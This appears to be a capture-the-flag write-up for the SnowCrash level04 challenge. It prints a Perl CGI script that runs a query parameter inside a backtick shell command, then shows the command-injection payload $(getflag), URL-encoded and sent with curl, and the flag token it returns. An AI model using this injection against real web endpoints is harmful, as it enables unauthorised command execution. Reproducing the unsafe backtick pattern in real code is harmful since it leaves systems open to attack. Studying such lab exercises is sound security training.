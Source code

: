 > level04@SnowCrash:~$ cat level04.pl
> #!/usr/bin/perl
> # localhost:4747
> use CGI qw{param};
> print "Content-type: text/html\n\n";
> sub x {
>   $y = $_[0];
>   print `echo $y 2>&1`;
> }
> x(param("x"));

It is exposing an http endpoint on localhost:4747 so we will use curl to request it
we can exploit `echo $y` by escaping our x query param

$(getflag) -> encode -> %24%28getflag%29

then execute
`curl http://localhost:4747/?x="%24%28getflag%29"

> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
